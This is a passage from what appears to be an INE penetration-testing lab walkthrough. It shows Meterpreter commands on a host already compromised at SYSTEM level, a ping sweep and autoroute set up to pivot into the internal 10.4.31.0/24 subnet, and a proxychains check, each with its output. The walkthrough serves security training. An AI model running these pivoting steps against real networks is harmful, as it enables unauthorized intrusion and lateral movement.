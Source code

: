 `getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

**Step 7**.

`shell`, `ping 10.4.31.141 -n 3`:
```
Pinging 10.4.31.141 with 32 bytes of data:
Reply from 10.4.31.141: bytes=32 time=1ms TTL=128
Reply from 10.4.31.141: bytes=32 time<1ms TTL=128
Reply from 10.4.31.141: bytes=32 time<1ms TTL=128

Ping statistics for 10.4.31.141:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

**Step 8**.

`ping demo.ine.local -c 1`:
```
PING demo.ine.local (10.4.29.185) 56(84) bytes of data. ←
64 bytes from demo.ine.local (10.4.29.185): icmp_seq=1 ttl=125 time=9.74 ms

--- demo.ine.local ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 9.735/9.735/9.735/0.000 ms
```

`ping demo1.ine.local -c 1`:
```
PING demo1.ine.local (10.4.31.141) 56(84) bytes of data. ←

--- demo1.ine.local ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

`sessions -i 1`, `run autoroute -s 10.4.31.0/24`, `run autoroute -p`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.4.31.0          255.255.255.0      Session 1 ←
```

**Step 9**.

`proxychains --version`:
```
[proxychains] config file found: /etc/proxychains4.conf ←
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
proxychains can't load process....: No such file or directory
```
